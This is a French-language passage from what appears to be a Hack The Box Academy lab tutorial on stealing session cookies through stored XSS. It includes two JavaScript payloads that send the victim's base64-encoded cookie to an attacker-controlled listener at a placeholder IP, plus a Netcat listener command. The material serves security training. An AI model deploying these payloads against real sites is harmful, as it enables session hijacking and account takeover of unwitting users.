 Terminez le serveur PHP avec Ctrl+c, et le cookie de la victime résidera à l'intérieur`cookieLog.txt`

![image](https://academy.hackthebox.com/storage/modules/153/53.png)

Vous pouvez maintenant utiliser ce cookie volé pour détourner la session de la victime !

* * * * *

Obtention de cookies de session via XSS (édition Netcat)
--------------------------------------------------------

Au lieu d'un script de journalisation des cookies, nous aurions également pu utiliser le vénérable outil Netcat.

Essayons cela aussi par souci d'exhaustivité.

Avant de simuler l'attaque, plaçons la charge utile ci-dessous dans le champ *Pays* du profil d'Ela Stienen et cliquez sur "Enregistrer". Il n'y a pas d'exigences spécifiques pour la charge utile. Nous venons d'en utiliser une moins courante et un peu plus avancée, car vous devrez peut-être faire la même chose à des fins d'évasion.

Code : javascript

```
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>

```

Instruisons également Netcat d'écouter sur le port 8000 comme suit.

```
dsgsec@htb[/htb]$ nc -nlvp 8000
listening on [any] 8000 ...

```

Ouvrez un `New Private Window`et accédez à `http://xss.htb.net/profile?email=ela.stienen@example.com`, en simulant ce que ferait la victime. Nous vous rappelons que ce qui précède est un profil public contrôlé par un attaquant hébergeant une charge utile de vol de cookies (exploitant la vulnérabilité XSS stockée que nous avons précédemment identifiée).

Au moment où vous placez votre souris sur "test", vous devriez maintenant voir ci-dessous dans votre machine d'attaque.

![image](https://academy.hackthebox.com/storage/modules/153/54.png)

Veuillez noter que le cookie est une valeur Base64 car nous avons utilisé la `btoa()`fonction, qui encodera en base64 la valeur du cookie. Nous pouvons le décoder à l'aide `atob("b64_string")`de la console de développement des outils de développement Web, comme suit.

![image](https://academy.hackthebox.com/storage/modules/153/55.png)

Vous pouvez maintenant utiliser ce cookie volé pour détourner la session de la victime !

Nous n'avons pas nécessairement besoin d'utiliser l' `window.location()`objet qui redirige les victimes. Nous pouvons utiliser `fetch()`, qui peut récupérer des données (cookies) et les envoyer à notre serveur sans aucune redirection. C'est une manière plus discrète.

Trouvez un exemple d'une telle charge utile ci-dessous.

Code : javascript

```
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>

```

Essaie...

Il est temps de passer à une autre attaque de session appelée Cross-Site Request Forgery (CSRF ou XSRF).
